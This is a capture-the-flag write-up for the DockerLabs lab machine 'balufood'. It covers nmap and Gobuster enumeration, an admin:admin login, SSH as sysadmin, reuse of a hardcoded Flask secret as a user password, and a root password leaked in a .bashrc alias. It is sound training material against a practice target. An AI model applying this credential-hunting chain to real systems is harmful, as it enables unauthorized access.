

# balufood

## Executive Summary
| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| balufood | El Pingüino de Mario | easy / facil | dockerlabs |

**Summary:** The balufood machine presented a layered privilege escalation path beginning with a Flask web application titled "Restaurante Balulero" served on port 5000. Directory enumeration with Gobuster uncovered a `/login` endpoint and an `/admin` panel that redirected to it. Default credentials `admin:admin` granted access to the admin panel, which revealed SSH credentials for the `sysadmin` user. Once inside the machine, reading `app.py` in the home directory exposed the Flask secret key `cuidaditocuidadin` and confirmed the application used SQLite. Inspection of `/etc/passwd` showed a second user `balulero`, and the Flask application source hinted at that account's relevance. The `app.py` secret key doubled as the `balulero` account password, allowing lateral movement via `su - balulero`. In `balulero`'s home directory, the `.bash_history` revealed the existence of a custom alias `ser-root`, and reading `.bashrc` disclosed it: `alias ser-root='echo chocolate2 | su - root'`. The password `chocolate2` was used directly with `su - root`, granting a full root shell.

---

## Reconnaissance

**1. Machine Deployment**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/balufood]
└─$ sudo bash auto_deploy.sh balufood.tar 
[sudo] password for ouba: 

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /"""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

**2. Port Scan**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ nmap -sC -sV -p- -T4 $ip
Starting Nmap 7.99 ( https://nmap.org ) at 2026-07-28 11:48 +0700
Nmap scan report for 172.17.0.2
Host is up (0.0000080s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u5 (protocol 2.0)
| ssh-hostkey: 
|   256 69:15:7d:34:74:1c:21:8a:cb:2c:a2:8c:42:a4:21:7f (ECDSA)
|_  256 a7:3a:c9:b2:ac:cf:44:77:a7:9c:ab:89:98:c7:88:3f (ED25519)
5000/tcp open  http    Werkzeug httpd 2.2.2 (Python 3.11.2)
|_http-server-header: Werkzeug/2.2.2 Python/3.11.2
|_http-title: Restaurante Balulero - Inicio
MAC Address: 5E:59:34:F3:60:52 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.18 seconds
```

The scan revealed SSH on port 22 and a Werkzeug Flask web application on port 5000 titled "Restaurante Balulero". The web application was the immediate focus.

---

## Initial Access

### Web Application Enumeration

**3. Directory Enumeration with Gobuster**

Gobuster was run against the Flask application to discover available endpoints.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ gobuster dir -u http://$ip:5000 -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x txt,php,html 
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2:5000
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              txt,php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
login                (Status: 200) [Size: 1850]
admin                (Status: 302) [Size: 199] [--> /login]
logout               (Status: 302) [Size: 189] [--> /]
console              (Status: 400) [Size: 167]
```

The scan revealed a `/login` endpoint and an `/admin` panel that redirected to it when unauthenticated.

### Logging into the Admin Panel

**4. Admin Panel Access with Default Credentials**

Default credentials `admin:admin` were tried against the login form and succeeded, granting access to the admin panel.


The admin panel displayed SSH credentials for the `sysadmin` user.



### SSH Access as sysadmin

**5. Logging in via SSH**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ ssh sysadmin@$ip
sysadmin@172.17.0.2's password: 
Linux e27ecad03a94 6.18.33.2-microsoft-standard-WSL2 #1 SMP PREEMPT_DYNAMIC Thu Jun 18 21:54:43 UTC 2026 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Apr 29 13:02:47 2025 from 172.17.0.1
sysadmin@e27ecad03a94:~$ id;whoami;hostname
uid=1000(sysadmin) gid=1000(sysadmin) groups=1000(sysadmin),100(users)
sysadmin
e27ecad03a94
```

A foothold was established as `sysadmin`.

---

## Lateral Movement

### Discovering the balulero Account and App Secret Key

**6. Enumerating Users and the Home Directory**

Checking `/etc/passwd` for interactive shell users and listing `/home` revealed a second account: `balulero`.

```bash
sysadmin@e27ecad03a94:~$ cat /etc/passwd | grep 'sh$'
root:x:0:0:root:/root:/bin/bash
sysadmin:x:1000:1000:sysadmin,sysadmin,,:/home/sysadmin:/bin/bash
balulero:x:1001:1001:balulero,,,:/home/balulero:/bin/bash
sysadmin@e27ecad03a94:~$ ls -la /home
total 16
drwxr-xr-x 1 root     root     4096 Apr 29  2025 .
drwxr-xr-x 1 root     root     4096 Jul 28 05:07 ..
drwx------ 3 balulero balulero 4096 Apr 29  2025 balulero
drwx---r-- 4 sysadmin sysadmin 4096 Apr 29  2025 sysadmin
```

**7. Reading the Flask Application Source**

The `app.py` file in `sysadmin`'s home directory was readable and contained the Flask secret key hardcoded in plaintext.

```bash
sysadmin@e27ecad03a94:~$ cat app.py 
from flask import Flask, render_template, redirect, url_for, request, session, flash
import sqlite3
from functools import wraps

app = Flask(__name__)
app.secret_key = 'cuidaditocuidadin'
DATABASE = 'restaurant.db'
...
```

The secret key `cuidaditocuidadin` was tested as the password for the `balulero` account.

**8. Pivoting to balulero via su**

```bash
sysadmin@e27ecad03a94:~$ su - balulero
Password: 
balulero@e27ecad03a94:~$ id;whoami;hostname
uid=1001(balulero) gid=1001(balulero) groups=1001(balulero),100(users)
balulero
e27ecad03a94
balulero@e27ecad03a94:~$ ls -la
total 36
drwx------ 1 balulero balulero 4096 Apr 29  2025 .
drwxr-xr-x 1 root     root     4096 Apr 29  2025 ..
-rw------- 1 balulero balulero  179 Jul 28 05:14 .bash_history
-rw-r--r-- 1 balulero balulero  220 Apr 29  2025 .bash_logout
-rw-r--r-- 1 balulero balulero 3572 Apr 29  2025 .bashrc
drwxr-xr-x 3 balulero balulero 4096 Apr 29  2025 .local
-rw-r--r-- 1 balulero balulero  807 Apr 29  2025 .profile
```

Lateral movement to `balulero` succeeded. The home directory contained a `.bash_history` file worth inspecting.

---

## Privilege Escalation

### Root Password Disclosure via .bashrc Alias

**9. Inspecting .bash_history**

Reading the shell history revealed that `balulero` had previously executed a command named `ser-root`.

```bash
balulero@e27ecad03a94:~$ cat .bash_history 
nano ~/.bashrc
apt install nano -y
exit
nano ~/.bashrc
source nano ~/.bashrc
source ~/.bashrc
alias
su root
exit
id;whoami
ls -la
cat .bash_history 
cat .bashrc 
ser-root
id
exit
```

The `ser-root` entry in the history indicated a custom alias had been defined for elevating privileges. Reading `.bashrc` revealed its definition.

**10. Reading the .bashrc Alias**

```bash
balulero@e27ecad03a94:~$ cat .bashrc 
# ~/.bashrc: executed by bash(1) for non-login shells.
...
alias ser-root='echo chocolate2 | su - root'
```

The alias `ser-root` piped the password `chocolate2` directly into `su - root`. This password was used to switch to root.

**11. Escalating to Root**

```bash
balulero@e27ecad03a94:~$ su - root
Password: 
root@e27ecad03a94:~# id;whoami;hostname
uid=0(root) gid=0(root) groups=0(root)
root
e27ecad03a94
```

Full root access was achieved using the password extracted from the `.bashrc` alias.

---

## Attack Chain Summary
1. **Reconnaissance**: Nmap identified SSH on port 22 and a Werkzeug Flask web application on port 5000 titled "Restaurante Balulero".
2. **Vulnerability Discovery**: Gobuster enumerated a `/login` endpoint and an `/admin` panel protected by authentication. Default credentials `admin:admin` granted access to the admin panel, which disclosed SSH credentials for `sysadmin`.
3. **Exploitation**: SSH access was established as `sysadmin`. Reading `app.py` in the home directory revealed the Flask secret key `cuidaditocuidadin`, which doubled as the password for the `balulero` system account. Lateral movement was achieved via `su - balulero`.
4. **Internal Enumeration**: In `balulero`'s home directory, `.bash_history` revealed a previously executed command named `ser-root`. Reading `.bashrc` disclosed the alias definition: `alias ser-root='echo chocolate2 | su - root'`, leaking the root password `chocolate2`.
5. **Privilege Escalation**: The password `chocolate2` was used with `su - root`, granting a full root shell.
